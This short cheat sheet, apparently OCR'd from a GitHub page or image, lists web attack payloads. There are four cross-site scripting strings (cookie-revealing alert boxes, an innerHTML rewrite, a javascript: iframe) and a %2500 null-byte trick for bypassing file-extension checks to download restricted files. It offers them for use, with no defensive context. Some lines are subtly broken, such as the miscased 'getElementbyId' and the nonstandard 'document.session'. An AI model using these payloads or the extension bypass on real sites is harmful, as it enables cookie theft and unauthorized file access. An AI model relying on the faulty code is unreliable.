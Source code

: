 ###  XSS Payloads you can do
<script>alert(document.session)</script>
<script>alert(document.cookie)</script>
<script>document.getElementbyId("something").innerHTML="blahblah"</script>
<iframe src="javascript:alert(`xss`)"/>  (DOM)


### If you want to download an inaccessible file you can append %2500 near the extension of the file you want to download
for eg. to download x.jpg you would do x.jpg%2500allowedextension

